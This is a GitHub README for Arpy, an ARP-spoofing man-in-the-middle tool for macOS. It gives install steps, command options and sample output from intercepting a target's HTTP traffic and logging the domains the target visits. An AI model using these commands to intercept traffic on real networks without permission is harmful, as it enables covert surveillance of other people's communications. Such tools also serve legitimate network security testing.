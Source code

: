 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy
* libdnet

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
pip install scapy
```
#### libdnet
```

$ git clone https://github.com/dugsong/libdnet.git
$ cd libnet
$ ./configure && make && make install
cd python
python setup.py install
```

## Sample Commands
```
ivanvza:~/ > sudo arpy
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --tcp                 Filters out only tcp traffic
  --udp                 Filters out only udp traffic
  -d D_PORT, --destination_port=D_PORT
                        Filter for a destination port
  -s S_PORT, --source_port=S_PORT
                        Filter for a source port
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
  -v                    Verbose scapy packet print
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3))

[Info] Found the following (IP layer): 192.168.1.3 -> 46.101.34.90
GET / HTTP/1.1
User-Agent: curl/7.37.1
Host: ivanvza.ninja
Accept: */*



[Info] Found the following (IP layer): 46.101.34.90 -> 192.168.1.3
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "2719538271"
Last-Modified: Thu, 30 Apr 2015 08:25:15 GMT
Content-Length: 3213
Date: Fri, 29 May 2015 20:15:06 GMT
Server: Microsoft IIS

<html>
     <title>><></title>
    <body>
        <pre style="line-height: 1.25; white-space: pre;">
        \          SORRY            /
         \                         /
          \    This page does     /
           ]   not exist yet.    [    ,'|
           ]                     [   /  |
           ]___               ___[ ,'   |
           ]  ]\             /[  [ |:   |
           ]  ] \           / [  [ |:   |
           ]  ]  ]         [  [  [ |:   |
           ]  ]  ]__     __[  [  [ |:   |
           ]  ]  ] ]\ _ /[ [  [  [ |:   |
           ]  ]  ] ] (#) [ [  [  [ :===='
           ]  ]  ]_].nHn.[_[  [  [
           ]  ]  ]  HHHHH. [  [  [
           ]  ] /   `HH("N  \ [  [
           ]__]/     HHH  "  \[__[
           ]         NNN         [
           ]         N/"         [
           ]         N H         [
          /          N            \
         /           q,            \
        /                           \
        </pre>
        <h3 id="list"><h3>
    </body>
<script>

// NOTE: window.RTCPeerConnection is "not a constructor" in FF22/23
var RTCPeerConnection = /*window.RTCPeerConnection ||
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff-dns-gource
[INFO] For a live gource feed run this command in parallel with this one:

tail -f /tmp/36847parsed_nmap | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -

[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3) and dst port 53)
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Port it too kali.
